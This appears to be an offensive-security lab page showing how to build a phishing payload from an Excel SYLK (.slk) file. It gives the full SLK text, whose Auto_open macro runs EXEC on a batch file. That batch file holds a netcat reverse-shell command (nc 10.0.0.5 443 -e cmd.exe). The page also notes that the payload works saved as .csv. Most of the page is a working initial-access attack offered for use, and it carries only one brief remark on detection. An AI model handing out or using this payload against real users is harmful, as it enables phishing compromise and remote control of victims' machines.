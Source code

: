 # Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked) - see below references for more info.

## Weaponization

Create an new text file, put the the below code and save it as .slk file:

{% code title="demo.slk" %}
```csharp
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
{% endcode %}

![](../../../.gitbook/assets/slk-text.png)

Note that the shell.cmd refers to a simple nc reverse shell batch file:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:

![](../../../.gitbook/assets/slk-shell.gif)

Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:

![](../../../.gitbook/assets/slk-csv.png)

## References

{% embed url="https://www.youtube.com/watch?v=xY2DIRfqNvA" %}

[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)

{% embed url="https://twitter.com/StanHacked/status/1049047727403937795" %}



